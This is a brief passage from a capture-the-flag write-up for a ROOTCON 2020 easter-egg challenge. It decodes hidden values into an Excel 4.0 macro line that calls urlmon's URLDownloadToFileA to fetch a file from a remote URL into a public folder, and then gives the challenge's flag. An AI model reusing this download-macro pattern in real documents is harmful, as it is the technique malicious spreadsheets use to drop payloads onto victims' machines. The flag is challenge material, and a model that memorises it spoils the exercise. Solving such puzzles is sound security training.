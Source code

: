 ![](/assets/images/ctf/rootcon_easter_egg_2020/reality5.png)  

Converting these values to ASCII results to this.  

```
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB","c:\\Users\\Public\\flag.txt",0,0)
```

Downloading this URL (http://easteregg.rootcon.net/sFpWgx9WkHQQ542K/36xQCWUDNaJpdbTB) gives us the egg for this challenge.  

Reality egg: rc_easter{r34l1ty_15_0ft3n__d1s4pp01nt1ng}


